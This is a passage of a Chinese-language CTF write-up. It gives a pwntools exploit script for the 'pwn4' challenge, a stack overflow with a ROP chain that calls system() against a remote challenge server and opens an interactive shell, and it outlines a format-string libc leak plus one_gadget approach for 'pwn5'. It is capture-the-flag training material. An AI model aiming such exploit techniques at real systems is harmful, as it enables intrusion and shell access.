 <img src="/images/posts/2019-06/1560925352321.png" >

详细脚本如下：

```
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

elf=ELF('./pwn4')
code_addr = 0x60111f
p = remote("114.116.54.89",10004)
system_plt = elf.symbols['system']
pop_rdi_ret = 0x00000000004007d3
payload = 'a'*0x18+p64(pop_rdi_ret)+p64(code_addr)+p64(system_plt)
p.sendline(payload)
p.interactive()
```

### pwn5

这道题也是一个栈溢出，但是需要满足一些子串的条件才能让他正常返回，不然就直接exit出去了，满足的子串条件自己调进去看是什么就拼上去就好了，注意小端序就行。思路就是格式化字符串泄露libc，然后直接覆盖返回地址为one_gadget，再满足正常返回的条件，然后就ok了
